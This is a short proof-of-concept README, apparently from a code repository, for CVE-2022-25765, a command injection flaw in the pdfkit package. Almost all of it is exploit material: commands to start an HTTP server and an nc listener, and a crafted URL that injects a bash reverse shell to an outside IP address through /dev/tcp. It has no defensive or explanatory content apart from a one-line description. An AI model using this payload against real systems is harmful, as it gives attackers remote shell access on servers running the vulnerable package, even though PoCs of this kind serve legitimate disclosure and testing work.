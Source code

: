 # PDFkit-CMD-Injection

# CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

python3 -m http.server 80

nc -lnvp 'Target Port'

http://'TARGET_ADDRESS:Target PORT'//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.34/443 <&1'`'}
